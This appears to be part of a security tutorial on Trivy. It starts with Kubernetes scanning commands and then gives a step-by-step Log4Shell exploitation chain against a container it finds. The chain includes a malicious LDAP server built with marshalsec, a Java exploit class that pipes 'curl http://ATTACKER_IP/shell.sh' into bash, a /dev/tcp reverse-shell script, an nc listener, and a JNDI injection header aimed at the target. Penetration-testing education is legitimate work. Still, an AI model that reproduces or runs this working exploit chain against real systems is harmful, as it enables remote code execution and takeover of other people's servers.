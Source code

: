 #### Kubernetes Scanning

```bash
# Scan Kubernetes manifests
trivy config ./kubernetes-manifests/

# Scan live cluster resources (requires kubectl access)
trivy kubernetes --namespace default

# Scan a specific resource
trivy kubernetes deployment/webapp
```

#### Example: Container Vulnerability Exploitation

When Trivy identifies a critical vulnerability:

```bash
# 1. Identify a vulnerable container
trivy image --severity CRITICAL target-app:latest

# 2. Extract specific vulnerability details
trivy image --format json target-app:latest | jq '.Results[].Vulnerabilities[] | select(.VulnerabilityID=="CVE-2021-44228")'

# 3. Research exploitation path (example for Log4Shell)
# Create a malicious LDAP server
git clone https://github.com/mbechler/marshalsec.git
cd marshalsec
mvn clean package -DskipTests
java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://YOUR_IP:8000/#Exploit"

# 4. Create Java exploit class
mkdir -p Exploit
cat > Exploit.java << 'EOF'
public class Exploit {
    static {
        try {
            java.lang.Runtime.getRuntime().exec("curl -s http://ATTACKER_IP/shell.sh | bash");
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
EOF

# 5. Compile and host
javac Exploit.java
python3 -m http.server 8000

# 6. Create reverse shell script
cat > shell.sh << 'EOF'
#!/bin/bash
bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1
EOF

# 7. Start listener
nc -lvnp 4444

# 8. Deliver exploit payload to vulnerable application
curl -H 'X-Api-Version: ${jndi:ldap://YOUR_IP:1389/Exploit}'  http://TARGET_APP:8080/api/endpoint
```
